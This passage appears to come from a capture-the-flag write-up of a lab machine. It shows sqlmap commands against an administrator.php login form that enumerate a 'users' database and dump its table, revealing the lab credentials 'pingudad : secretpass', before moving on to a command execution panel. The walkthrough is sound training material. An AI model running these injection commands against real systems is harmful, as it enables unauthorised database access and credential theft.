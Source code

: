  
### Test for user database

```
sqlmap -u http://10.10.122.172/administrator.php --data 'username=&password=' -a
```


This will dump everything from the database

```
sqlmap -u http://10.10.122.172/administrator.php --forms -D users --tables
```

```
Database: users
[1 table]
+-------+
| users |
+-------+
```


This will show the tables in the `users` database.

Dump everything from tge table `users` :

```
sqlmap -u http://10.10.122.172/administrator.php --forms -D users -T users --dump
```

Both username and password will be shown : 

```
+----------+------------+
| username | password   |
+----------+------------+
| pingudad | secretpass |
+----------+------------+
```

So we have the creds :   

```
pingudad : secretpass
```


## Command execution


After logging in to the admin panel we get a command execution panel.
